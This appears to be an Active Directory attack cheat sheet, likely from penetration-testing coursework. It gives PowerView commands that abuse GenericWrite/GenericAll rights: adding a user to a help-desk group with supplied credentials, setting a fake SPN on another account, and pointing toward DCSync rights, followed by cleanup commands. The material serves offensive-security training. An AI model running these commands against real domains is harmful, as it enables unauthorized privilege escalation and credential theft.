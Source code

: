 ### Adding a member to a domain 
*For ObjectAceTypes GenericWrite and GenericAll*

```PowerShell
Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```
PowerView tool used view the members of a target security group (Help Desk Level 1) from a Windows-based host.

#### Adding the member
```PowerShell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```
PowerView tool used to add a specifc user (damundsen) to a specific security group (Help Desk Level 1) in a target Windows domain from a Windows-based host.

#### Checking to see if they were successfully added
```PowerShell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
PowerView tool used to view the members of a specific security group (Help Desk Level 1) and output only the username of each member (Select MemberName) of the group from a Windows-based host.

#### Creating a fake SPN to imitate the account with group rights
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
PowerView tool used create a fake Service Principal Name given a specific user (adunn) from a Windows-based host.

*Look for `DS-Replication-Get-Changes` or `DS-Replication-Get-Changes-In-Filtered`. This will allow the user to perform a DCSync Attack.*

### Undoing the attack
```PowerShell
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```
PowerView tool used to remove the fake Service Principal Name created during the attack from a Windows-based host.

```PowerShell
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```
PowerView tool used to remove a specific user (damundsent) from a specific security group (Help Desk Level 1) from a Windows-based host.

```PowerShell
ConvertFrom-SddlString
```
PowerShell cmd-let used to covert an SDDL string into a readable format. Performed from a Windows-based host.
